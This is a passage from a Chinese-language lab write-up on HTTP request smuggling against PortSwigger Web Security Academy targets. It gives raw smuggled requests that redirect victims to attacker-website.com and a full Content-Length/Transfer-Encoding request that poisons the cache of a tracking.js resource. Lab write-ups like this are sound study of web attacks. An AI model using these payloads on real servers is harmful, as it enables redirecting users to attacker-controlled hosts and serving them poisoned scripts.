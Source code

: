 Smugle 之后的请求会像以下这样：

```http
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com
```

然后如果服务器根据 Host 进行跳转的话，我们会得到以下的 Response:

```http
HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

这样，受害者，也就是访问`/scripts/include.js`这个的用户，会被跳转到我们控制的 url

#### 缓存投毒

https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-poisoning

基于上面的Host跳转的攻击场景，当前端服务器还存在缓存静态资源时可以配合smuggling进行缓存投毒

在/post/next?postId=2的路由处有一个跳转的api供我们使用，这个路由跳转到/post?postId=4

我们选择/resources/js/tracking.js进行投毒

```http
POST / HTTP/1.1
Host: ac7a1f141fadd93d801c469f005500bf.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=f6c7ZBB52a6iedorGSywc8jM6USu4685
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 178
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: ac701fe61fabd97b8027465701f800a8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1

```

之后再访问/resources/js/tracking.js会跳转到我们走私请求的url/post?postId=4，再访问正常主页就会alert

![image-20220319205945177](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220319205945177.png)

